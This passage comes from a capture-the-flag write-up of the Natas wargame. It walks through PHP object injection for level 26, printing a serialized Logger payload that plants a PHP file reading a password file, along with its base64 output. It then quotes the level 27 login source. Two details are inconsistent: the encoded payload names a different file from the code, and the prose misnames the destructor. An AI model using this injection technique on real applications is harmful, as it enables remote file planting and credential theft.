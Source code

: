 In short PHP object injection allows us to locally create an object that resembles code on the webapp. There is however two reqs to this. The first being that there is an object that implements the __construct and __deconstruct methods. The second is an unsanitized deserialized. All we have to do now is create a similar object serialized it, base64 it and upload it.

{% highlight php %}
<?php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
       
        function __construct(){
            $this->initMsg="";
            $this->exitMsg="<?php echo file_get_contents('/etc/natas_webpass/natas27');?>";
            $this->logFile = "img/code.php";
        }                       
                           
       
        function __destruct(){
            echo "destruct";
            echo $this->logFile;
            echo $this->exitMsg;
        }                       
    }

$obj = new Logger();
echo base64_encode(serialize($obj));

?>
{% endhighlight %}

After ran it gives us the following.

{% highlight bash %}
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNToiaW1nL2hhY2tlZDIucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MDoiIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NjE6Ijw/cGhwIGVjaG8gZmlsZV9nZXRfY29udGVudHMoJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7Pz4iO30=destructimg/code.php<?php echo file_get_contents('/etc/natas_webpass/natas27');?>
{% endhighlight %}

After we replace drawing with our new object. We head back to the homepage. Then we just navigate to code.php and our password is displayed.

### Natas 27
- - - - - - -

ShoutOut: To [Foxx](https://iops.io) for poking this with me till stumbling upon the solution.

This one was deceiving. Natas27 presents us with a simple login form that creates new users if you enter a random username and password combination. Nothing to useful so we look at the source.

{% highlight bash %}
/* 
CREATE TABLE `users` ( 
  `username` varchar(64) DEFAULT NULL, 
  `password` varchar(64) DEFAULT NULL 
); 
*/ 
function checkCredentials($link,$usr,$pass){ 
    $user=mysql_real_escape_string($usr); 
    $password=mysql_real_escape_string($pass); 
    $query = "SELECT username from users where username='$user' and password='$password' "; 
    $res = mysql_query($query, $link); 
    if(mysql_num_rows($res) > 0){ 
        return True; 
    } 
    return False; 
} 